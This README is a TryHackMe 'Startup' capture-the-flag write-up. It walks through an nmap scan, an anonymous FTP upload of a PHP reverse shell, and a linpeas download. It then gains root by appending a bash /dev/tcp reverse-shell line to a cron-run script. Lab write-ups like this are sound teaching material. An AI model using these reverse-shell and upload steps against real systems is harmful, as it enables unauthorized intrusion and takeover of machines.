




# README.md
---
title: "TryHackMe : StartUp "
author: ["Mark Lawton ", "mark@mwlawton.uk"]
date: "20201109"
subject: "Startup"
keywords: [TryHackMe. THM, PenTest, OSCP, Report]
subtitle: "Writeup / PenTest report for "Startup""
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
...
### ip= 10.10.48.14
#### /etc/hosts 10.10.48.14  startup startup.thm
```
https://tryhackme.com/room/startup
```


```
So lets start with the obivous port scan, i ont have rustscan on this vm yet so lets stick to nmap.
```
### Nmap 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 19:19 GMT
Nmap scan report for startup (10.10.48.14)
Host is up (0.073s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3                                                                                  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                             
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]                                     
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt                                               
| ftp-syst:                                                                                                        
|   STAT:                                                                                                          
| FTP server status:                                                                                               
|      Connected to 10.9.0.218                                                                                     
|      Logged in as ftp                                                                                            
|      TYPE: ASCII                                                                                                 
|      No session bandwidth limit                                                                                  
|      Session timeout in seconds is 300                                                                           
|      Control connection is plain text                                                                            
|      Data connections will be plain text                                                                         
|      At session startup, client count was 2                                                                      
|      vsFTPd 3.0.3 - secure, fast, stable                                                                         
|_End of status                                                                                                    
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                 
| ssh-hostkey:                                                                                                     
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)                                                     
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)                                                    
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)                                                  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                       
|_http-title: Maintenance                                                                                          
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 
```
```
OK so we find some open ports 
21 FTP
22 SSH
80 HTTP
lets start with FTP
```
### ftp
```
Ftp allows anonymous login lets see what we can get out of it?

I've recently been stung with failing to check for hidden files when using FTP so its always ls -la for me now 

We find one hidden file a normal text file and a folder called ftp
.test.log
ftp
notice.txt
```
```
ftp is an empty folder 
.test.log is nothing to write home about 
but notice.txt gives us some stuff about among us but I didnt find much use init 
```
### gobuster 
```
gobuster ran with common.txt gives us a 

/files folder

```
### over to the website

```
nothing here and investigating the source gives no hints or useful information
```
### /files

```
this looks familar its the same folder structure as the ftp server, lets see if we can move a php reverse shell in there and see if we can use it 
```
```
$ip = '10.9.0.218';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

We make sure we change the ip and port to match our environment and upload to the ftp server 
```
```
Ok so we cant put the file in the directory we land in but we can move to ftp folder an put into there 
```
```
 Now we have a php reverse shell in the ftp folder we can head back over to the website and see whats present 

 make sure we start our listner 

 nc -lnvp 9999
```
```
we click the php file and we get a shell
```

### linpeas 
```
Once on the box a little investigating we can see there is not much we can do, www-data is not allowed to do much, lets get linpeas on the server and try running it 

I cd over to /dev/shm serve  http server on my kali machine on port 3333 

wget http://10.9.0.218:333/linpeas.sh

make the file executable 
chmod +x linpeas.sh 

then run with ./linpeas.sh 
```
```
some interesting things jump out 
```

```
cat the recipe.txt and we find the first task

[REDACTED]

now moving to the /incidents folder, we scp the pcapng file over to our kali machine and open wireshark 
```
### wireshark
```
This part was pain saking (I'm not a wireshark user by any means) finally we found something interesting. 
```

```
now we have username and passowrd 

username: lennie
password: [REDACTED]
```
### user flag
```
First thing we can now see the lennie user home directory and the user.txt

cat /home/lennie/user.txt
[REDACTED]
```
### privesc 
```
I took the opportunity to run linpeas.sh again now as lennie user and we see more interesting files 

While that ran I investigated the /home/lennie directory and we find

/scripts/planner.sh

I thought lets put a bash reverse shell in there 

Over to PayloadsAllTheThings (a git repo much like pentest monkey)
echo "bash -i >& /dev/tcp/10.9.0.218/8888 0>&1" >> planner.sh

but lennie user could not write to the file... back over to the linpeas 
```
```
We find another sh file this time 
/etc/print.sh 

we try again 

echo "bash -i >& /dev/tcp/10.9.0.218/8888 0>&1" >> /etc/print.sh 

and it worked, no we start another listener on the kali machine 

nc -lnvp 8888

and now we wait 
```
```
Bingo we have a shell 
```
### root flag
```
root@startup:~# 
root@startup:~# whoami
root
root@startup:~# 

cat /root/root.txt
[REDACTED]
root@startup:~# 
```
```
and we are done, nice room, I had fun doing it, hope this writeup is helpful.
```
